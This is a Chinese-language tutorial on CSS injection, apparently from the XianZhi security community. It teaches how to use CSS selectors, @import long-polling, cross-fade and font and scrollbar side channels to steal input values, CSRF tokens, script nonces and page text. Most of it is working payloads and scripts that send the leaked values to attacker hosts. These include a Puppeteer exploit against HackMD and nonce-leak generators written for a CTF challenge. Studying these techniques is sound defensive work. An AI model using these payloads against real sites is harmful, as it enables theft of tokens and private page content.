








# CSS Injection 从入门到精通-先知社区

> **来源**: https://xz.aliyun.com/news/16316  
> **文章ID**: 16316

---

CSS Injection 通过利用 `CSS Selectors` 匹配和选择页面元素的功能来实现页面信息的泄露

## 1. 基础用法

假设此时 `target.com` 的目标靶机上存在以下内容

```
<input value="somevalue" type="text">

```

如果想要得到 input 元素的 value，我们可以在 `target.com` 上加载如下 css ：

```
input[value^=a]{
    background-image: url(https://attacker.com/?value=a);
}
input[value^=b]{
    background-image: url(https://attacker.com/?value=b);
}
/* ... */
input[value^=9]{
    background-image: url(https://attacker.com/?value=9);   
}

```

`value^=X` 是一个 `CSS Selectors` 表达式，它将匹配所有目标类型中包含属性 value 且其值以前缀 `X` 开头的元素，同时使用目标样式渲染被选择的元素。

由于样式中指定了 `background-image: url()` ，这将触发页面对目标 url `attacker.com/?value=s` 的 HTTP 请求，此时我们通过在 `attacker.com` 上的请求日志就可以得知 value 以 `s` 开头，

然后我们重新加载 `target.com` ，但使用如下 CSS：

```
input[value^=sa]{
    background-image: url(https://attacker.com/?value=sa);
}
input[value^=sb]{
    background-image: url(https://attacker.com/?value=sb);
}
/* ... */
input[value^=s9]{
    background-image: url(https://attacker.com/?value=s9);   
}

```

这会导致页面请求 `attacker.com/?value=so`,  
最终，在重复此模式几次后，最终请求 `attacker.com/?value=somevalue` 将允许我们了解目标页面中 input 元素的 value 属性值。

## 2. 减少规则数量

由于 CSS Selectors 包含 `value*=X` 表达式，  
可以匹配任何包含属性 value 且其值包含 `X` 字符的元素，  
因此我们可以预先确定组成目标属性值的字符集，来减少获得目标属性值所需的规则数量。

例如，上面的样例中仅使用了字符“s,o,m,e,v,a,l,u,e”，  
因此我们可以减少所需的规则数量至每个字符9个规则。

## 3. 加速泄露

如果目标信息过长，逐字元泄露的速度可能过慢，  
事实上，我们可以一次泄露两个字元：  
由于 CSS Selectors 不仅包含 prefix selector: `value^=X`，  
还包含 suffix selector: `value$=X` 表达式，  
因此我们可以这样来一次获取两个字元：

```
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

// ...
input[name="secret"][value$="a"] {
  border-background: url(https://b.myserver2.com/suffix?q=a)
}

input[name="secret"][value$="b"] {
  border-background: url(https://b.myserver2.com/suffix?q=b)
}

```

注意此处前后缀选择器的两个属性需要分别使用 `background` 和 `border-background`，  
因为如果使用同一属性，在多次匹配到相同元素样式时仅最后一个会生效并会被请求

## 4. meta 标签 信息泄露

由于部分信息会被网站存储于 meta 标签中，  
而 meta 标签在页面中往往是处于不可见的状态的，  
大部分浏览器不会渲染不可见的 meta 标签，  
因此它的样式的外部资源不会被浏览器检索，  
使用常规的 `background-imageurl` 方法在 `attacker.com` 上不会收到任何请求，  
但是我们可以通过 CSS 让这个元素变为可见状态：

```
meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}

```

但是如果进行尝试，我们发现请求还是被没有送出，  
这是因为 meta 在 head 底下，而 head 也有预设的 `display:none` 属性，  
因此也要给 head 设置可见样式，才能让 meta 可见：

```
head, meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}

```

## 5. 绕过 type=hidden 属性限制

```
<form action="/action">
  <input type="hidden" name="csrf-token" value="abc123">
  <input name="username">
  <input type="submit">
</form>

```

在以上示例中，由于 input 元素的 type 是 hidden，所以这个元素不会显示在页面上，  
与 meta 标签一样，大部分浏览器不会渲染 type 为 hidden 的元素，  
因此该元素样式的外部资源不会被浏览器检索，我们在 `attacker.com` 上也就不会收到任何请求。  
而这个限制非常严格，就算用 `display:block !important;` 也没办法覆盖

这个问题可以通过 CSS 中的 相邻同级组合器 （+）和 通用同级组合器（~）来解决

### 5.1 CSS 相邻同级组合器（+）

> 相邻同级组合器选择器允许您选择紧跟在一个特定元素之后的元素。
>
> ```
> p + p {} /* 选择一个段落之后的同级且继承于它的所有段落 */
>
> ```



### 5.2 CSS 通用同级组合器（~）

> 通用同级运算器选择器与刚才的相邻同级运算器选择器非常相似。  
> 不同之处在于，被选中的元素不需要立即继承第一个元素，而是可以出现在它之后的任何位置。
>
> ```
> p ~ p {} /* 选择一个段落之后同级的所有段落 */
>
> ```
>
> 如果我们使用与上面相同的示例结构，最后一个 `<p>`元素也将由 p ~ p 选择，因为它前面是另一个 `<p>` 元素，即使不是直接的。



利用 相邻同级组合器 （+）和 通用组合运算器（~），  
我们可以渲染与 `input[type=hidden]` 同级的其他没有 `type=hidden` 属性的 input 元素，  
来实现通过 `background-imageurl` 的信息泄露，从而绕过 `type=hidden` 限制

### 5.3 CSS :has 选择器

不难发现，相邻同级组合器和通用同级组合器只能在目标 `type=hidden` 的元素之后存在没有 `type=hidden` 标记的同级元素时才能实现信息泄露，  
而如果目标元素之后不存在满足条件的同级元素时，我们则需要使用 :has 选择器来实现信息泄露

> :has 选择器 可以选择包含特定内容的元素。  
> 例如，`a:has(img)`可以选择所有包含子元素``的`<a>`元素。

因此，我们可以利用以下 CSS：

```
form:has(input[name="csrf-token"][value^="a"]){
  background: url(https://example.com?q=a)
}

```

该 CSS 将选中包含符合条件的 input 的 form ，并将其渲染为对应样式，  
由于被渲染的元素为 `form` ，故可以绕过 input 的 hidden 属性来实现信息泄露

## 6. 实时更新 Style 信息泄露

在上述示例中，如果目标信息在页面重新加载后更新会重置，  
我们将只能使用 CSS 获取目标信息的第一个字元。

而在以下示例 HackMD 中 CSRF token 在重新加载后会更新，  
而示例 HackMD 支持 Style 样式的实时更新，  
也就是说，只要内容变了，会立刻反映在其他 client 的画面上，  
因此可以做到不重新加载而实时更新style。

### 6.1 步骤

1. 准备好泄露第一个字元的 CSS Payload，插入到 HackMD 里
2. 受害者打开页面
3. 服务器收到泄露第一个字元的请求
4. 从服务器更新 HackMD 内容，换成泄露第二个字元的 Payload
5. 受害者页面即时更新，载入新的 Style
6. 服务器收到第二个字元的请求
7. 不断循环直到整个目标信息被泄露



### 6.2 Payload

```
const puppeteer = require('puppeteer');
const express = require('express')

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

// Create a hackMD document and let anyone can view/edit
const noteUrl = 'https://hackmd.io/1awd-Hg82fekACbL_ode3aasf'
const host = 'http://localhost:3000'
const baseUrl = host + '/extract?q='
const port = process.env.PORT || 3000

;(async function() {
  const app = express()
  const browser = await puppeteer.launch({
    headless: true
  });
  const page = await browser.newPage();
  await page.setViewport({ width: 1280, height: 800 })
  await page.setRequestInterception(true);

  page.on('request', request => {
    const url = request.url()
    // cancel request to self
    if (url.includes(baseUrl)) {
      request.abort()
    } else {
      request.continue()
    }
  });
  app.listen(port, () => {
    console.log(`Listening at http://localhost:${port}`)
    console.log('Waiting for server to get ready...')
    startExploit(app, page)
  })
})()

async function startExploit(app, page) {
  let currentToken = ''
  await page.goto(noteUrl + '?edit');

  // @see: https://stackoverflow.com/questions/51857070/puppeteer-in-nodejs-reports-error-node-is-either-not-visible-or-not-an-htmlele
  await page.addStyleTag({ content: "{scroll-behavior: auto !important;}" });
  const initialPayload = generateCss()
  await updateCssPayload(page, initialPayload)
  console.log(`Server is ready, you can open ${noteUrl}?view on the browser`)

  app.get('/extract', (req, res) => {
    const query = req.query.q
    if (!query) return res.end()

    console.log(`query: ${query}, progress: ${query.length}/36`)
    currentToken = query
    if (query.length === 36) {
      console.log('over')
      return
    }
    const payload = generateCss(currentToken)
    updateCssPayload(page, payload)
    res.end()

  })
}

async function updateCssPayload(page, payload) {
  await sleep(300)
  await page.click('.CodeMirror-line')
  await page.keyboard.down('Meta');
  await page.keyboard.press('A');
  await page.keyboard.up('Meta');
  await page.keyboard.press('Backspace');
  await sleep(300)
  await page.keyboard.sendCharacter(payload)
  console.log('Updated css payload, waiting for next request')
}

function generateCss(prefix = "") {
  const csrfTokenChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_'.split('')
  return `
${prefix}
<style>
    head, meta {
        display: block;
    }
    ${
      csrfTokenChars.map(char => `
        meta[name="csrf-token"][content^="${prefix + char}"] {
            background: url(${baseUrl}${prefix + char})
        }
      `).join('\n')
    }
</style>
  `
}

```

## 7. @import 递归导入

完成上述 CSS Injection 通常需要满足以下先决条件：

1. CSS 注入需要允许足够长的有效负载
2. 能够构建页面以触发新生成的有效负载的 CSS 重新评估
3. 能够使用外部托管的图像（可能被 CSP 阻止）

这意味着如果注入不允许足够大小的有效负载或者页面无法构建，则上述的技术可能不适用。

在这种情况下需要一种让浏览器无需重新加载iframe 或额外的用户交互，即可重新评估多个 CSS 有效负载，而且还需要能绕过可以注入的有效负载的长度限制的方法。

仅使用标签来利用这一点似乎不太可能，因此考虑有趣的CSS功能：`@import`

### 7.1 @import 用法

许多编程语言都能够从其他源文件导入代码，CSS 也不例外。  
虽然许多人可能只知道 `<link href="..." rel="stylesheet">` ，  
但 CSS 本身实际上有一种方法可以使用名为 `@import` 的规则，  
执行类似 `<link>`（但不同）类型的样式表包含。

### 7.2 递归导入的先决条件

要完成使用 @import 的递归导入，需要满足以下先决条件：

1. 在样式标记的开头拥有控制权（HTML 注入通常拥有此控制权）
2. 页面 CSP 没有阻止外部 `style-src` url 的使用

### 7.3 递归导入原理

我们需要浏览器评估一次恶意 css，使用下一个获得到的`token`发送出站请求，然后重复。  
显然，“重复”部分通常是使用全帧重新加载（iframe，或选项卡等等）来完成的。  
然而，我们实际上并不需要重新加载框架来让浏览器重新评估新的CSS。

@import 递归导入 使用 3 个简单步骤来欺骗某些浏览器执行多次评估：

1. 将 `@import` 规则注入暂存负载
2. 暂存有效负载用于 `@import` 开始对恶意有效负载进行长轮询
3. 有效负载导致浏览器调用 `usingbackground-img: url(...)` 导致生成下一个长轮询 `@import` 规则并将其返回给浏览器。



### 7.4 递归导入示例

假设 `token` 长度为 32 个字符

#### 7.4.1 有效载荷示例

```
<style>@import url(http://attacker.com/staging?len=32);</style>

```

#### 7.4.2 步骤示例

```
@import url(http://attacker.com/lp?len=0);
@import url(http://attacker.com/lp?len=1);
@import url(http://attacker.com/lp?len=2);
...
@import url(http://attacker.com/lp?len=31);

```

#### 7.4.3 长轮询有效负载（第0位）示例

```
input[name=xsrf][value^=a] { background: url(http://attacker.com/exfil?t=a); }
input[name=xsrf][value^=b] { background: url(http://attacker.com/exfil?t=b); }
input[name=xsrf][value^=c] { background: url(http://attacker.com/exfil?t=c); }
...
input[name=xsrf][value^=Z] { background: url(http://attacker.com/exfil?t=Z); }

```

浏览器调用`http://attacker.com/exfil?t=<first char of token>`后，  
`attacker.com` 记录 `token` ，  
生成下一个长轮询负载，并返回`http://attacaker.com/lp?len=1`的响应。

#### 7.4.4 长轮询有效负载（第 1-s 位）示例

> 在当前状态下 第 0-s-1 个字符 已知

```
input[name=xsrf][value^=sa] { background: url(http://attacker.com/exfil?t=sa); }
input[name=xsrf][value^=sb] { background: url(http://attacker.com/exfil?t=sb); }
input[name=xsrf][value^=sc] { background: url(http://attacker.com/exfil?t=sc); }
...
input[name=xsrf][value^=sZ] { background: url(http://attacker.com/exfil?t=sZ); }

```

重复此过程，直到不再有长轮询连接打开。

### 7.5 递归导入工具

<https://github.com/d0nutptr/sic>

### 7.6 注意事项

#### 7.6.1 请求数量限制问题

由于浏览器对于同一个 domain 能同时载入的请求数量有限制，  
如果在注入时出现请求丢失的情况，可以将 background-imageurl 设置为另一个二级域名 (如 a.attacker.com 等)

#### 7.6.2 Firefox 特殊处理

在 Firefox 上对于 @import 的处理有些特殊，就算第一个的请求先返回，  
也不会立刻更新style，要等所有request 都回来才会一起更新。  
如果 xssbot 使用的是 Firefox ，则需要对 payload 做如下特殊处理：

```
<style>@import url(https://myserver.com/payload?len=1)</style>
<style>@import url(https://myserver.com/payload?len=2)</style>
<style>@import url(https://myserver.com/payload?len=3)</style>
<style>@import url(https://myserver.com/payload?len=4)</style>
<style>@import url(https://myserver.com/payload?len=5)</style>
<style>@import url(https://myserver.com/payload?len=6)</style>
<style>@import url(https://myserver.com/payload?len=7)</style>
<style>@import url(https://myserver.com/payload?len=8)</style>
```

由于 Chrome 也支持以上写法，所以建议使用以上写法来同时支持两种 xssbot

## 8. 并行泄露组合

当目标页面通过 CSP 限制了 `style-src` 时，  
我们将无法使用 @import递归导入 引入外部样式表  
但在 Black Hat Asia 2023 中首次提到了关于并行泄露组合的方法  
在本文中我将以 0CTF/TCTF 2023 - newdiary 一题介绍本方法的使用

本题中的 CSP 策略如下：

```
<meta http-equiv="Content-Security-Policy"
    content="script-src 'nonce-<%= nonce %>'; frame-src 'none'; object-src 'none'; base-uri 'self'; style-src 'unsafe-inline' https://unpkg.com">

```

由于 CSP 中使用了 `style-src https://unpkg.com`，而 unpkg 仅为 npm 的一个 cdn，  
因此此处可以认为是允许任何的外部 style，但无法使用 @import 进行递归导入。

而又因为 CSP 中设置了 Script 的 nonce，仅有携带相应 nonce 属性和值的代码会被执行，  
因此在本题中我们要使用 CSS Injection 来窃取页面中的 nonce

### 8.1 nonce 切割

我们通过将目标 nonce 切割成多个可能值较少的小块，并不立即泄露出整个 nonce，  
而是并行泄露所有长为 3 字符的 nonce 连续子串，  
例如，对于 `8c2a19fa-8dcd-44d1-807c-1c65abef0251` ，我们可以这样操作：



### 8.2 解决属性覆盖问题

#### 8.2.1 利用 cross-fade() 函数

> cross-fade() CSS 函数使用多个图像和百分比的组合作为参数，并返回叠加两个图像后所产生的图像  
> 如果省略任何百分比，则将100%减去所有指定的百分比的和，如果结果大于 0%，则结果将平均分配给所有图像。

通过利用 cross-fade() 函数，我们可以避免同一属性被最后一个设定覆盖而导致仅有最后一个设定被请求的问题  
Payload 如下：

```
img[src*="abc"] { --abc: url("//attacker.com/abc") }
img[src*="bcd"] { --bcd: url("//attacker.com/bcd") }
/* ... */

img {
    background-image: cross-fade(
        cross-fade(var(--abc, none), var(--bcd, none), 50%),
        cross-fade(/* ... */),
        50%
    );
}

```

生成 Payload 代码如下：

```
const fs = require('fs')
let chars = 'abcdefghijklmnopqrstuvwxyz0123456789'
const host = 'https://ip.ngrok-free.app'

let arr = []
for(let a of chars) {
    for(let b of chars) {
        for(let c of chars) {
            let str = a+b+c;
            arr.push(str)
        }
    }
}

let payload1 = ''
let crossPayload1 = 'url("/")'
let payload2 = ''
let crossPayload2 = 'url("/")'
let payload3 = ''
let crossPayload3 = 'url("/")'

const third = Math.floor(arr.length / 3);
const arr1 = arr.slice(0, third); 
const arr2 = arr.slice(third, 2 * third); 
const arr3 = arr.slice(2 * third); 

for(let str of arr1) {
    payload1 += `script[nonce*="${str}"]{--${str}:url("${host}/leak?q=${str}")}\n`
    crossPayload1 = `-webkit-cross-fade(${crossPayload1}, var(--${str}, none), 50%)`
}

for(let str of arr2) {
    payload2 += `script[nonce*="${str}"]{--${str}:url("${host}/leak?q=${str}")}\n`
    crossPayload2 = `-webkit-cross-fade(${crossPayload2}, var(--${str}, none), 50%)`
}

for(let str of arr3) {
    payload3 += `script[nonce*="${str}"]{--${str}:url("${host}/leak?q=${str}")}\n`
    crossPayload3 = `-webkit-cross-fade(${crossPayload3}, var(--${str}, none), 50%)`
}

payload1 = `${payload1} script{display:block;} script{background-image: ${crossPayload1}}`
payload2 = `${payload2}script:after{content:'a';display:block;background-image:${crossPayload2} }`
payload3 = `${payload3}script:before{content:'a';display:block;background-image:${crossPayload3} }`

fs.writeFileSync('exp1.css', payload1, 'utf-8');
fs.writeFileSync('exp2.css', payload2, 'utf-8');
fs.writeFileSync('exp3.css', payload3, 'utf-8');
```

这题如果把全部规则都套在同一个元素上，似乎会因为规则太多之类的让 Chrome 直接crash，  
（不过不影响最终请求的发送）  
所以需要把把规则分为三份，顺便套在三个不同元素上。

#### 8.2.2 使用 var 变量法

Payload：

```
:has(script[nonce*="aaa"]){--tosend-aaa: url(...?x=aaa);}
:has(script[nonce*="aab"]){--tosend-aab: url(...?x=aab);}
:has(script[nonce*="aac"]){--tosend-aac: url(...?x=aac);}

[...]

input{
    background: var(--tosend-aaa, none),
    var(--tosend-aab, none),
    var(--tosend-aac, none),
    var(--tosend-aad, none),
    [...]
}

```

生成 Payload 代码如下：

```
import itertools

charset = "abcdefghijklmnopqrstuvwxyz0123456789"

perms = list(map("".join, itertools.product(charset, repeat=3)))


with open("leak.css", "w") as f:
    for i, x in enumerate(perms):
        f.write(f""":has(script[nonce*="{x}"]){{--tosend-{x}: url(https://25de-37-160-34-111.ngrok-free.app/?x={x});}}""")


    data = ""
    print("loading")
    for x in perms:
        data += f"var(--tosend-{x}, none),"

    print("done")
    print("writing")

    f.write(("""
input{
background: %s
}
""" % data[:-1]))

```

### 8.3 nonce 复原

#### 8.3.1 复原原理

1. 找到开头的长为三个字符的子串（即开头的两个字符匹配不到剩余子串末尾的两个字符的子串）
2. 通过已知 nonce 部分末尾的两个字符与剩余子串的开头两个字符的匹配来连接 nonce 子串
3. 重复步骤 2 直到所有子串被连接完毕
4. 还原整个 nonce

#### 8.3.2 JavaScript 实现

```
function mergeWords(arr, ending) {
  if (arr.length === 0) return ending
  if (!ending) {
    for(let i=0; i<arr.length; i++) {
      let isFound = false
      for(let j=0; j<arr.length; j++) {
        if (i === j) continue

        let suffix = arr[i][1] + arr[i][2] 
        let prefix = arr[j][0] + arr[j][1]

        if (suffix === prefix) {
          isFound = true
          continue
        }
      }
      if (!isFound) {
        console.log('ending:', arr[i])
        return mergeWords(arr.filter(item => item!==arr[i]), arr[i])
      }
    }

    console.log('Error, please try again')
    return
  }

  let found = []
  for(let i=0; i<arr.length; i++) {
    let length = ending.length
    let suffix = ending[0] + ending[1]
    let prefix = arr[i][1] + arr[i][2]

    if (suffix === prefix) {
      found.push([arr.filter(item => item!==arr[i]), arr[i][0] + ending])
    }
  }

  return found.map((item) => {
    return mergeWords(item[0], item[1])
  })
}

```

#### 8.3.3 Python 实现

```
def retrieveNonce(nonce_substr=nonce_substr, force=False):
    # find the beginning of the nonce (there is no match for start)
    new_substr = list(nonce_substr)
    if (len(new_substr) != 30 and not force):
        print(f"different length of new_substr [{len(new_substr)}] - aborting")
        return 0
    backup = []
    nonce = ''
    remove_i = 0
    for i in range(len(new_substr)):
        start_i = new_substr[i][0:2]
        left = 0
        for j in range(len(new_substr)):
            end_j = new_substr[j][-2:]
            if i != j:
                if start_i == end_j:
                    left = 1
                    break
        if left == 0:
            # beginning
            remove_i = i
            nonce = new_substr[i]
            break
    if (len(nonce) == 0):
        print("no beginning - aborting")
        return 0
    while (len(nonce) < 32):
        new_substr = new_substr[0:remove_i] + new_substr[remove_i+1:]
        # print("new substr: " + str(new_substr))
        found = []
        for i in range(len(new_substr)):
            start_i = new_substr[i][0:2]
            if (nonce[-2:] == start_i):
                # print("found: " + start_i)
                found += [i]
        if (len(found) == 0):
            # start over from latest backup
            if (len(backup) > 0):
                nonce = backup[-1][0]
                found = backup[-1][1]
                new_substr = backup[-1][2]
                backup = backup[:-1]
            else:
                print("no backup - aborting")
                break
        if (len(found) > 0):
            if (len(found) > 1):
                print("found more than one: " + str(found))
                backup += [[nonce, found[1:], new_substr]]
            remove_i = found[0]
            nonce += new_substr[remove_i][-1]

        # input("nonce: " + nonce)

    return nonce

```

## 9. 页面内容泄露

上述介绍的方法由于 CSS Selector 的限制，只能够获取到元素属性的值，  
如果我们想要获取到页面上的其他文字或者脚本的内容，则需要使用其他的特殊方法

### 9.1 unicode-range

> unicode-range 可以针对不同的字元，载入不同的字体

```
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "Ampersand";
        src: local("Times New Roman");
        unicode-range: U+26;
      }

      div {
        font-size: 4em;
        font-family: Ampersand, Helvetica, sans-serif;
      }
    </style>
    <div>Me & You = Us</div>
  </body>
</html>

```

`&` 的 unicode 是 U+0026，因此只有 `&` 这个字会用不同的字体来显示，剩余部分都用同一个字体  
因此我们可以利用它来泄露页面中的内容：

```
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "f1";
        src: url(https://myserver.com?q=1);
        unicode-range: U+31;
      }

      @font-face {
        font-family: "f2";
        src: url(https://myserver.com?q=2);
        unicode-range: U+32;
      }

      @font-face {
        font-family: "f3";
        src: url(https://myserver.com?q=3);
        unicode-range: U+33;
      }

      @font-face {
        font-family: "fa";
        src: url(https://myserver.com?q=a);
        unicode-range: U+61;
      }

      @font-face {
        font-family: "fb";
        src: url(https://myserver.com?q=b);
        unicode-range: U+62;
      }

      @font-face {
        font-family: "fc";
        src: url(https://myserver.com?q=c);
        unicode-range: U+63;
      }

      div {
        font-size: 4em;
        font-family: f1, f2, f3, fa, fb, fc;
      }
    </style>
    Secret: <div>ca31a</div>
  </body>
</html>

```

但这种方法也具有局限性：

1. 无法得知字元的顺序
2. 无法获知字元的重复与否

### 9.2 字体高度差异 + first-line + scrollbar

我们其实可以不载入外部字体，用内建的字体就能泄露出字元。  
我们首先要找出两组高度不同的内建字体，  
例如 `Comic Sans MS` 字体，已知它的高度比 `Courier New` 高，  
假设预设的字体高度是 30px ，而 Comic Sans MS 是 45px ，那现在我们把文字区块的高度设成 40px ，并且载入字体：

```
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 30px;
        height: 40px;
        width: 100px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }

    </style>
    Secret: <div>DBC</div>
    <div>ABC</div>
  </body>
</html>

```



在图中，很明显 `A` 比其他字元的高度都高，  
而且根据我们的 CSS 设定，如果内容高度超过容器高度，会出现 scrollbar 。  
虽然图中看不出来，但是下面的 ABC 存在 scrollbar，而上面的 DBC 却没有。

如果此时我们给 scrollbar 设置一个 style：

```
div::-webkit-scrollbar {
    background: blue;
}

div::-webkit-scrollbar:vertical {
    background: url(https://myserver.com?q=a);
}

```

则如果有 scrollbar 出现，我们的 server 就会收到请求，  
如果 scrollbar 没有出现，我们就不会收到请求。

所以当我们把 div 套用 fa 字体时，

* 如果画面上有 `A` ，就会出现 scrollbar ，我们的 server 就会收到请求。
* 如果画面上没有 `A` ，就什么事情都不会发生。

因此，我如果一直重复载入不同字体，那我在 server 就能知道画面上有什么字元，这点跟刚刚我们使用 unicode-range 做到的事情是一样的。

#### 9.2.1 字元顺序问题

我们先把 div 的宽度缩减到只能显示一个字元，  
这样其他字元就会被放到第二行去，  
再使用 `::first-line` 的 selector ，就可以特别针对第一行来设置样式：

```
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 0px;
        height: 40px;
        width: 20px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }

      div::first-line{
        font-size: 30px;
      }

    </style>
    Secret: <div>CBAD</div>
  </body>
</html>

```

画面上就只会存在一个 `C` 的字元，  
因为我们先用`font-size: 0px` 把所有字元的尺寸都设为 0，  
再用 `div::first-line` 去做调整，  
让第一行的 `font-size` 变成 30px。  
